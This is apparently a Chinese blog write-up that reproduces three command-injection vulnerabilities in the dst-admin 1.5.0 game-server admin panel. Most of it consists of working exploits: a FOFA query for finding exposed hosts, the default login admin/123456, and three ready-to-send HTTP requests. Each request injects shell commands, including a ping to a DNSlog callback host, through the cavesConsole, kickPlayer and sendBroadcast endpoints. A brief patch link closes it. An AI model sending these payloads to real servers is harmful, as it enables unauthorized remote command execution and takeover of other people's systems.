





# dst-admin饥荒管理后台 RCE漏洞复现（CVE-2023-0646、CVE-2023-0647、CVE-2023-0649）

### 0x01 产品简介

  dst-admin饥荒管理后台是qinming99个人开发者的一个用 Java 语言编写的 web 程序。

### 0x02 漏洞概述

  dst-admin饥荒管理后台kickPlayer、cavesConsole、sendBroadcast等接口处配置不当，导致破解口令后的攻击者可以进行[命令注入](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)，获取服务器权限。

### 0x03 影响范围

dst-admin 1.5.0版本

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：title=="饥荒管理后台"



### 0x05 漏洞复现 

弱口令登录

admin/123456

**CVE-2023-0646**

```cobol
POST /home/cavesConsole HTTP/1.1
Host: your-ip
Content-Type: application/json
Cookie: JSESSIONID=65b0f393-708f-4e03-b564-52b1bc0b683a;rememberMe=deleteMe;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"command":"\"&ping Dnslog;\""}
```



 **CVE-2023-0647**

```cobol
GET /home/kickPlayer?userId=%5C%22)%5Cn%22%26ping+Dnglog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=93ab200b-a15d-4ac6-8138-abfa1262b5f5;rememberMe=deleteMe;
```



**CVE-2023-0649**

```cobol
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=94d5d20b-036a-41bf-a77c-334d2be0ed80;rememberMe=deleteMe;
Accept-Encoding: gzip
```



###  0x06 修复建议 

目前厂商已发布升级补丁以修复漏洞，

补丁获取链接：https://github.com/qinming99/dst-admin
